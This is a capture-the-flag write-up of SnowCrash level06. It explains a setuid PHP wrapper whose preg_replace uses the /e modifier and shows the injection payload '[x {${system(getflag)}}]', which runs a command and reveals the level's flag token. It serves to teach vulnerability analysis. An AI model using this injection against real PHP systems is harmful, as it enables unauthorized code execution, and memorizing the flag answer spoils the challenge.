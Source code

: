 Listing the files in the directory, we find a binary file and a php script:

```bash
level06@SnowCrash:~$ ls -la
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x--- 1 flag06 level06 356 Mar 5  2015 level06.php
```

The s in level06 permissions indicates the SetUID bit. This means the file will run with the privileges of its owner instead of the user executing it. In our case, the owner is flag06.

### **Analyzing level06 binary file**

```bash
level06@SnowCrash:~$ file level06
level06: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs)
```

To analyze the binary file, we transfer it to our local machine using **scp**:

```bash
level06@SnowCrash:~$ scp -P 4242 level06@127.0.0.1:/home/user/level06/level06 ./
```

We decompile the binary using [dogbolt.org](http://dogbolt.org) : 








### **Analyzing level06.php**

```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z) { 
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a; 
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

**The y() function**

Input: 

- $m → a string

Behavior: 

- Replace . by “ x ” in $m
- Replace @ by “ y” in $m

Return $m

**The x() function**

Input : 

- $y → a path to a file
- $z → unused

Behavior:

- Get the content of the file and stores it in $a
- Replace [ by ( in $a
- Replace ] by ) in $a
- Replaces [x something] with the result of y(”something”)

Return $a

**Regex explanations**

| PHP | Meaning |
| --- | --- |
| preg_replace() | Search and replace |
| preg_replace("/\./", " x ", $m) | Replace . by ” x “ in $m |
| preg_replace("/@/", " y", $m) | Replace @ by “ y” in $m |
| preg_replace("/\[/", "(", $a) | Replace [ by ( in $a |
| preg_replace("/\]/", ")", $a) | Replace ] by ) in $a |
| preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a) | Replaces [x something] with the result of y(”something”) |

Detailed explanation of **preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)** : 

| Regex | Meaning |
| --- | --- |
| \[x | Matches [x literally |
| (.*) | Nested capture inside Group 1. Captures everything after [x **as Group 2** |
| \] | Matches ] literally |
| **(\[x (.*)\])** | This captures everything from [x …. ] including the brackets as Group 1 |
| /e | Modifier, evaluates the replacement as PHP code |
| **/(\[x (.*)\])/e** | Matches [x something], captures “something” in group 2 and evaluates y(\"\\2\") as PHP code (deprecated for security reason) |

**Exemple:**

| Input | Hello [x Hello World] !!!! |
| --- | --- |
| Group 1 | [x Hello World] |
| Group 2 | Hello World |

| Regex | Meaning |
| --- | --- |
| y(   ) | Function call to y() |
| \\2 | Backreference to Group 2 (\2) captured above. In PHP, inside double quotes, \\ is needed to represent a single backslash. |
| \” | Those backslash escape “ so PHP treats it as a literal quote inside the string. |
| **y(\"\\2\")** | Gets executed as a PHP code because of /e above |

**The problem with /e**

/e is a modifier deprecated for security reasons. It is used to evaluate the replacement string as PHP code. 

Normally, preg_replace($pattern, $replacement, $subject) just replaces text, but with /e the replacement part is executed as PHP code. 

**There is a security risk of code injection. To perform an injection in this context means to change the $subject variable.**

In our case $subject is passed through command-line as a file.

First, as we did in previous levels, we create a file into /tmp/ to save the result and set the appropriate permissions so the PHP injection script can write to it.

```bash
level06@SnowCrash:~$ touch /tmp/my_dir/script
level06@SnowCrash:~$ chmod 777 /tmp/my_dir/script
level06@SnowCrash:~$ echo '[x {${system(getflag)}}]' > script
```

Running the script:

```bash
level06@SnowCrash:~$ ./level06 script
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : **wiok45aaoguiboiki2tuin6ub**
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

### Ressources

- https://dogbolt.org/?id=3676f32d-440a-403f-b048-6336a9e88a73#Ghidra=171
- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Regular_expressions/Cheatsheet
- https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier

